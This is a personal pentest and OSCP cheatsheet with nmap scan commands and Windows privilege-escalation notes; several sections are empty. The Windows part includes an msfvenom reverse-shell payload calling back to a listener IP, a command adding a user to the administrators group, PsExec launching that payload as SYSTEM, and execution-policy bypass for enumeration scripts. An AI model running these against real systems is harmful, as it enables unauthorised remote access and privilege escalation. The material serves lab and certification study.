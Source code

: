 # Pentest Toolkit / OSCP Cheatsheet

imma just throw things that work in here

# Table of Contents

+ [Reconaissance](#reconaissance)
    1. [Port Scanning](#port-scanning)
    2. [Directory Enumeration](#directory-enumeration)
    3. [Header Analysis](#header-analysis)
+ [Exploitation](#exploitation)
+ [Post-Exploitation Enumeration](#post-exploitation)
+ [Privilege Escalation](#privilege-escalation)
    1. [Linux](#linux-privesc)
    2. [Windows](#windows-privesc)
        - The Basics
        - Payloads
        - Privesc Enumeration Tools


## Reconaissance

### Port Scanning
full TCP scan
> sudo nmap -sC -sV -O --open -p- -oA nmap/full [targets]

full UDP scan
> sudo nmap -sU -p- -oA nmap/udp [targets]

scripts w/ ports
> sudo nmap --scripts vuln,safe,discovery -p \[ports] [targets]

### Directory Enumeration

### Header Analysis

## Exploitation
## Post-Exploitation
## Privilege Escalation 

### Linux Privesc

First and foremost, [g0tmi1k's blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation) is more comprehensive than the commands I will list here.

### Windows Privesc

[FuzzySecurity's blog post](https://www.fuzzysecurity.com/tutorials/16.html)

[Tib3rius's Windows PrivEsc course](https://www.udemy.com/course/windows-privilege-escalation/)
  1. The Basics

**Your User**
> whoami
> whoami /priv
> net user [user]

**System Config**
> systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
> ipconfig /all
> netstat -ano
> tasklist /SVC


  2. Payloads
msfvenom executable payload

> msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.10.2 LPORT=4444 -f exe -o reverse.exe

RDP- add user to administrators group first

> net localgroup administrators [user] /add

PsExec from Windows Sysinternals

> .\PsExec64.exe -accepteula -i -s C:\temp\reverse.exe

  3. PrivEsc Enumeration Tools
[PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1):
> powershell -exec bypass
> . .\PowerUp.ps1
> Invoke-Allchecks

[SharpUp](https://github.com/GhostPack/SharpUp):
> .\SharpUp.exe

[SeatBelt](https://github.com/GhostPack/Seatbelt) (more verbose, less targeted at privesc):
> .\SeatBelt.exe all
> .\SeatBelt.exe Nonstandard

[winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS):
List checks
> .\winPEASany.exe -h
Single check
> .\winPEASany.exe userinfo
All checks
> .\winPEASany.exe


